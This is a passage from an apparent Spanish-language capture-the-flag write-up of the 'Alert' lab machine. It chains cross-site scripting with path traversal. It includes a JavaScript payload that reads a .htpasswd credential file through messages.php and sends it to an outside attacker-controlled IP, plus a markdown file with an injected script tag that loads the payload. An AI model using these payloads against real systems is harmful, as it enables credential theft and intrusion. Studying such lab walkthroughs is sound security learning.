 Si decodificamos el valor que viajó en la variable `file_content` que nosotros definimos, podemos ver que se trata de etiquetas `HTML`

~~~ html
<h1>Messages</h1><ul><li><a href='messages.php?file=2024-03-10_15-48-34.txt'>2024-03-10_15-48-34.txt</a></li></ul>
~~~

Es interesante lo que logramos visualizar, porque ahora sabemos que `messages.php` puede recibir una variable `file`


## Cross-Site Scripting + Directory Path Traversal

Recordemos que en el subdominio `statistics.alert.htb` existen archivos como `.htaccess`, que aunque no tengamos acceso desde fuera quizás si podamos acceder mediante el XSS que estamos explotando en `alert.htb`

Modificaremos nuestro script para recibir el contenido de ese archivo intentando retroceder varios directorios y luego dirigiéndonos a `/var/www/statistics.alert.htb/.htpasswd`

> `xss.js`

~~~ js
fetch("http://alert.htb/messages.php?file=../../../../../../../var/www/statistics.alert.htb/.htpasswd")
  .then(response => response.text())
  .then(data => {
    fetch("http://10.10.14.254/?file_content=" + encodeURIComponent(data));

  });
~~~

Si has guardado este payload en otro archivo al igual que yo, **debes considerar apuntar a ese nuevo archivo desde `test.md`**

~~~ bash
# Hola
<script src=http://10.10.14.254/xss.js></script>
~~~

![image-center](/assets/images/posts/alert-path-traversal.png){: .align-center}
